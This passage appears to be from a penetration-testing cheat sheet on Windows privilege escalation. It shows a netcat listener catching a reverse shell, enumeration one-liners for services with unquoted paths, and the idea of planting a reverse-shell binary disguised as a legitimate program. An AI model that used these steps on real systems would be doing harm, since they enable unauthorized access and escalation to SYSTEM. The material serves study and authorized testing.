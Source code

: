 capture connection

```
rlwrap nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from $ip.
Ncat: Connection from $ip:54805.
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## Find unquoted paths

If we find a service running as SYSTEM/Administrator with an unquoted path and spaces in the path we can hijack the path and use it to elevate privileges. This occurs because windows will try, for every white space, to find the binary in every intermediate folder.

For example, the following path would be vulnerable:

{% hint style="danger" %}
```
C:\Program Files\something\winamp.exe
```
{% endhint %}

Not vulnerable

{% hint style="success" %}
```
"C:\Program Files\something\winamp.exe"
```
{% endhint %}

**Obtain the path of the executable called by a Windows service (good for checking Unquoted Paths):**

```
sc query state= all | findstr "SERVICE_NAME:" >> a & FOR /F "tokens=2 delims= " %i in (a) DO @echo %i >> b & FOR /F %i in (b) DO @(@echo %i & @echo --------- & @sc qc %i | findstr "BINARY_PATH_NAME" & @echo.) & del a 2>nul & del b 2>nul
```

We could place our payload with any of the following paths:

```
C:\winamp.exe (this is a reverse shell with the same names as legal program)
```

#### The following command will display affected services:

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
